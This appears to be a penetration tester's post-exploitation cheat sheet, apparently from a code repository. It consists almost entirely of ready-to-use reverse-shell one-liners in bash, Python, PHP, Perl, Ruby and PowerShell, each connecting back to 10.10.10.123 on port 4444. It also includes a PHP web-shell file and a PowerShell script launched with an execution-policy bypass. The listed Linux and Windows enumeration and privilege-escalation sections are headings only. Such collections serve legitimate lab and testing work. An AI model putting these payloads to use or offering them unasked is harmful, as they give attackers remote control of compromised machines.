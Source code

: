# Post-exploitation
Tools and techniques I use for post-exploitation:
- [Reverse Shell](#reverse-shell)
  - [bash](#bash)
  - [python](#python)
  - [php](#php)
  - [perl](#perl)
  - [ruby](#ruby)
  - [powershell](#powershell)
- [Linux](#)
  - [Enumeration](#)
  - [Privilege Escalation](#)
- [Windows](#)
  - [Enumeration](#)
  - [Privilege Escalation](#)

----

## Reverse Shell

### bash
```bash
bash -i >& /dev/tcp/10.10.10.123/4444 0>&1
``` 

#### python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.123",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### php
```php
# One liner
php -r '$sock=fsockopen("10.10.10.123",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

# Reverse shell in file
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.123/4444 0>&1'");
```

## perl
```perl
perl -e 'use Socket;$i="10.10.10.123";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## ruby
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.10.10.123",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## powershell
```powershell
# Create a powershell script with the name reverse.ps1
function reverse_powershell {
    $client = New-Object System.Net.Sockets.TCPClient("10.10.10.123",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
}

# Execute reverse shell
powershell -ExecutionPolicy bypass -command "Import-Module reverse.ps1; reverse_powershell"
```

